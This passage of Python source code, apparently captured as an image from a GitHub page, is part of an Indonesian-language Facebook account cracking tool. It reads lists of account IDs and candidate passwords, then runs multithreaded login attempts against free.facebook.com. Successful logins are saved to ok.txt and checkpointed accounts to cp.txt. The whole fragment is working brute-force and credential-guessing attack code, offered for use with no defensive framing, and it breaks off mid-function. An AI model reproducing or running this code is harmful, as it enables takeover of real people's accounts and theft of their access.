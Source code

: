 						try:
							self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
						except:continue
				except Exception as e:
					print(("   %s"%e))
				print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				exit()
				break
	def pwlist(self):
		self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
			print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			exit()
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=f_fb(fl.get("id"),
					i,"https://free.facebook.com")
				if log.get("status")=="cp":
					print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s               "%(fl.get("id"),i)))
					self.cp.append("%s • %s"%(fl.get("id"),i))
					open("cp.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				elif log.get("status")=="success":
					print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s               "%(fl.get("id"),i)))
					self.ada.append("%s • %s"%(fl.get("id"),i))
					open("ok.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				else:continue
					
			self.ko+=1
			print("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.ko,len(self.fl),len(self.ada),len(self.cp)), end=' ');sys.stdout.flush()
		except:
			self.main(fl)

class bapi:
  def __init__(self,isifile):
    self.setpw = False
    self.ok = []
    self.cp = []
    self.loop = 0
    self.krah(isifile)
  def krah(self,isifile):
    print((k+"\n["+p+"•"+k+"]"+p+" Mode Crack Password Default/Manual [d/m]"))
    while True:
      f=input(k+"["+p+"•"+k+"]"+p+" Pilih : ")
      if f in[""," "]:
        print((k+"["+p+"!"+k+"]"+p+" Invalid Number"))
        continue
      elif f in["m","M"]:
        try:
          while True: